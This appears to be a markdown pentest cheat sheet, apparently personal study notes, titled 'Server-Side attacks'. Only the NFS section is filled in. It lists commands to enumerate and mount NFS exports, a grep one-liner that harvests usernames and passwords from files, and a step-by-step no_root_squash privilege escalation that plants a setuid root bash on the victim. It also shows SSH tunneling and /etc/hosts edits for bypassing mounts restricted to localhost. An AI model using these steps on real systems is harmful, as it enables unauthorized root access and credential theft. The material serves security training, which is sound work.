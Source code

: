 # Server-Side attacks

## Index

- [NFS](#nfs)
- [IKE - Internet Key Exchange](#ike---internet-key-exchange)
- [SNMP](#snmp)
- [NodeJS](#nodejs)
- [Python](#python)
- [Redis 6379](#redis-6379)
- [Oracle TNS](#oracle-tns)
- [Memcached](#memcached)
- [SMTP / IMAP](#smtp--imap)
- [113 ident](#113-ident)
- [FreeSWITCH](#freeswitch)
- [Umbraco](#umbraco)
- [VoIP penetration test](#voip-penetration-test)
- [DNS](#dns)

## NFS

- > "Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user."
- Ports: 2049, 111
- Show the NFS server’s export list: `showmount -e <target>`
  - The same with nmap: `nmap –sV –script=nfs-showmount <target>`
- Mount an NFS share: `mount -o rw,vers=2 <target>:<share> <local_directory>`
  - `mount -t nfs [-o vers=2] 192.168.182.216:/srv/share /tmp/mount -o nolock`
  - `sudo mount -t nfs 192.168.182.216:/share /tmp/mount`
  - `mount -o rw,vers=2 192.168.182.216:/srv/share /tmp/mount`
  - If the mount is restricted to localhost, try with an ssh tunnel or similar
- See [Task 19 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)
- One liner to extract credentials
  - `grep -rnlE 'username|password|admin' /path/to/directory | grep -Ev '\.css$|\.html$|\.js$' | xargs -I {} grep -nHE --color=always 'username|password|admin' {} | sed -E 's/(username|password|admin)/\x1b[31m\1\x1b[0m/g'`

**Root Squashing**
- Root Squashing is how NFS prevents an obvious privilege escalation
- `no_root_squash` turns root squashing off
- example: `/srv/share  localhost(rw,sync,no_root_squash)`
  ```
  showmount -e 192.168.182.216
  sudo mount -t nfs 192.168.182.216:/share /tmp/mount
  sudo mount -t nfs 192.168.182.216:/srv/share /tmp/mount -o nolock
  mount -o rw,vers=2 192.168.182.216:/srv/share /tmp/mount
  ```
  1. VICTIM: `cp /bin/bash .`
  2. KALI: `sudo chown root:root bash; sudo chmod +xs bash`
  3. VICTIM: `./bash -p`
- if you can't mount because restricted to localhost only and you have access to the victim's machine, try ssh tunneling:
  ```
  ssh -N -L localhost:2049:localhost:2049 kali@192.168.45.195
  ssh -N -L 127.0.0.1:8443:127.0.0.1:8443 kali@192.168.45.245
  ```
  - modify `/etc/hosts` with `echo "192.168.45.195 localhost" >> /etc/hosts`
- Check: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
